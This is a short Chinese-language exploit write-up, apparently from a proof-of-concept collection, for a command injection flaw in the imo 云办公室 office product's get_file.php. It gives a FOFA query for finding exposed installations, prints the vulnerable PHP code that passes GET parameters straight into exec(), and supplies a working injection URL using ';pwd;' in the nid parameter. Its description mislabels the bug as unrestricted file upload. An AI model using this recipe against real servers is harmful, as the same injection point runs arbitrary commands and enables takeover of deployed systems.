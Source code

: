 # imo 云办公室 get_file.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 /file/NDisk/get_file.php 过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限。

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## FOFA

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0-20220313162918737.png)

漏洞文件 get_file.php

```javascript
<?php
// 放置在 mfs 服务器上用于获取文件列表，配合 nd_verify_large_file.php 使用
if(empty($_GET['cid']) || empty($_GET['nid']))
	exit;
$cid = $_GET['cid'];
$nid = $_GET['nid'];
$mainDir = dirname(__FILE__) . '/../upload/NDiskData/normal/' . $cid . '/';
exec("ls {$mainDir}*_{$nid}_*", $r);
$ret = array();
foreach($r as $v)
	$ret[md5_file($v)] = str_replace(dirname(__FILE__) . "/../upload/NDiskData/normal/{$cid}/", '', $v);
echo json_encode($ret);
```

验证POC

```javascript
/file/NDisk/get_file.php?cid=1&nid=;pwd;
```

![img](../../../.vuepress/public/img/1645880486605-ff738b08-cb7a-4039-b079-a167e13bc567.png)